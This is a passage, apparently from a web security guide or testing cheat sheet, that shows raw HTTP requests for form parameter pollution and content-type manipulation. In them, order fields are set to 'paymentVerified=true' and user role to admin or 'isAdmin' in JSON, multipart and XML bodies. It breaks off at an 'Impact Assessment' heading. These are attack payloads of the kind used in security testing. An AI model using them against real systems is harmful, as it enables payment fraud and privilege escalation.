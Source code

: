 #### Form Parameter Pollution

```
POST /api/orders HTTP/1.1
Host: example.com
Authorization: Bearer [your_token]
Content-Type: application/x-www-form-urlencoded

productId=123&quantity=1&price=10.00&status=COMPLETED&paymentVerified=true
```

#### Content-Type Manipulation Attacks

```
# JSON payload with form-encoded Content-Type
POST /api/users HTTP/1.1
Host: example.com
Authorization: Bearer [your_token]
Content-Type: application/x-www-form-urlencoded

{"name":"John Doe","email":"john@example.com","isAdmin":true}
```

```
# Mixed Content-Type with boundary
POST /api/users HTTP/1.1
Host: example.com
Authorization: Bearer [your_token]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="user"
Content-Type: application/json

{"name":"John","email":"john@example.com","role":"admin"}
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

```
# XML payload with JSON content type
POST /api/users HTTP/1.1
Host: example.com
Authorization: Bearer [your_token]
Content-Type: application/json

<user>
  <name>John Doe</name>
  <email>john@example.com</email>
  <role>admin</role>
  <isAdmin>true</isAdmin>
</user>
```

### Impact Assessment

